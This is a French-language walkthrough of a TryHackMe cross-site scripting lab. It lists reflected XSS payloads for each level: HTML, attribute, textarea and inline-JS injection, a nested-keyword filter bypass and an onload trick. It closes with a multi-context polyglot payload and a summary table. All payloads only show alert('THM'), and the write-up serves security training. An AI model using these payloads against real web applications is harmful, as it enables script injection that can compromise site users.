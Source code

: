 # 🛡️ TryHackMe – XSS Walkthrough (Payload THM)

Ce document récapitule les différents niveaux de la machine TryHackMe sur l'exécution de **payloads XSS** afin d’afficher un `alert('THM')`. On y explore les cas typiques de failles XSS **reflected** avec filtrage, injection dans attributs ou dans du JavaScript inline.

---

## 🎯 Objectif général

- Déclencher une alerte `alert('THM')` à chaque niveau.
- Comprendre les types de contextes d'injection : HTML, attribut, JavaScript, filtré, etc.
- Appliquer un payload adapté à chaque situation.

---

## 🧪 Niveaux & Payloads

### 🔹 Niveau 1 – Injection simple dans le HTML

**Contexte :** Le nom est injecté directement dans le corps HTML.

**Payload :**
```html
<script>alert('THM');</script>
```

---

### 🔹 Niveau 2 – Injection dans un attribut `value=""`

**Contexte :** Le nom est injecté dans l’attribut `value` d’un champ `<input>`.

**Payload :**
```html
"><script>alert('THM');</script>
```

**Explication :** Le `">` ferme l’attribut `value="`, puis le `script` est injecté.

---

### 🔹 Niveau 3 – Injection dans une balise `<textarea>`

**Contexte :** Le texte est injecté dans une balise `<textarea>`.

**Payload :**
```html
</textarea><script>alert('THM');</script>
```

**Explication :** On ferme le `<textarea>`, puis on injecte le `<script>`.

---

### 🔹 Niveau 4 – Injection dans du JavaScript inline

**Contexte :** Le nom est intégré dans une variable JS inline.

**Payload :**
```js
';alert('THM');// 
```

**Explication :**
- `'` ferme la chaîne.
- `;` termine l’instruction JS.
- `//` commente le reste.

---

### 🔹 Niveau 5 – Filtrage de mot-clé `script`

**Contexte :** Le mot `script` est supprimé automatiquement.

**Payload contournement :**
```html
<sscriptcript>alert('THM');</sscriptcript>
```

**Explication :** Le filtre supprimant `script`, le doublement contourne la détection.

---

### 🔹 Niveau 6 – Injection avec filtre `<` et `>` bloqués

**Contexte :** On ne peut pas injecter de balises `<script>` directement.

**Payload avec `onload`:**
```html
/images/cat.jpg" onload="alert('THM');
```

**Explication :** Utilisation d’un événement `onload` dans un tag `<img>`.

---

## 🧪 Payload Polyglot Universel

Un payload XSS "polyglot" peut fonctionner dans de multiples contextes, même avec des filtres :

```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

---

## 🏁 Résumé

| Niveau | Contexte                        | Payload                                     |
|--------|----------------------------------|---------------------------------------------|
| 1      | HTML direct                      | `<script>alert('THM');</script>`            |
| 2      | Input `value=""`                | `"><script>alert('THM');</script>`          |
| 3      | Balise `<textarea>`             | `</textarea><script>alert('THM');</script>` |
| 4      | JavaScript inline               | `';alert('THM');//`                          |
| 5      | Filtrage de `script`            | `<sscriptcript>alert('THM');</sscriptcript>`|
| 6      | Filtrage `<`, `>` contourné via `onload` | `/images/cat.jpg" onload="alert('THM');`     |

---

